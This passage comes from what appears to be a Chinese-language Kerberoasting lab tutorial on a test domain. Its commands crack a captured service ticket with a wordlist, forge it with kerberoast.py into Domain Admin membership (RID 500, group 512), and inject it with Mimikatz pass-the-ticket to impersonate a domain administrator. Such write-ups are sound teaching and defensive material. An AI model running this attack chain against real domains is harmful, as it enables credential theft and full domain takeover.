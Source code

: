 ```bash
python3 tgsrepcrack.py wordlist.txt 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi
```

[![](assets/1701606719-b48ec6cf74186be4dc8a22c7c6cc1376.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162709-9bb54248-7e10-1.png)  
之后我们还可以重写该 Ticket：

```bash
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -u 500
```

之后添加用户到域管理员：

```bash
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -g 512
```

之后使用 Mimikatz 注入到 RAM 中：

```bash
kerberos::ptt sql.kirbi
```

之后伪造域管理员账户进行访问域内主机~

#### Rubeus
